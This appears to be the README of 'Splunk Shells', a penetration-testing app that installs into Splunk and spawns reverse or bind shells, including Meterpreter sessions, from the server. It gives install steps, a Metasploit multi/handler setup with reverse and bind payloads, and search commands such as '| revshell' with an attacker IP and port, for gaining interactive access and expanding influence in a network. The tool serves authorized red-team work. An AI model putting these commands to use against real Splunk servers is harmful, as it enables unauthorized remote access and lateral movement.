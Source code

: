 Splunk Shells App Version 1.2

TBG Security Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to interact with the server and expand influence within the environment.
Install

Download the release from https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz

Navigate to the "Manage Apps" and click on "Install app from file"

Alt text

Click on "Choose File" and select the downloaded release archive.

Alt text

Once it is installed you will have to restart Splunk

Alt text

For Splunk v6.5 ONLY Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

Alt text
Usage

Using each of these shells can be done from the Search and Reporting app. Setup a handler first then execute one of the following searches:
Setup Metasploit Handler

use multi/handler

Pick one of the below

set payload python/meterpreter_reverse_tcp
set payload python/meterpreter_bind_tcp
set payload python/shell_reverse_tcp
set payload python/shell_bind_tcp

set LHOST
set LPORT
exploit -j
Bind Shell

'| bindshell SHELLTYPE PORTNUMBER'

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a port number it defaults to 8888
Reverse Shell

'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT'

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

ATTACKERIP - Specify the IP that you want to shell to be sent back to.

ATTACKERPORT - Specify the port you want the shell to be sent back to.
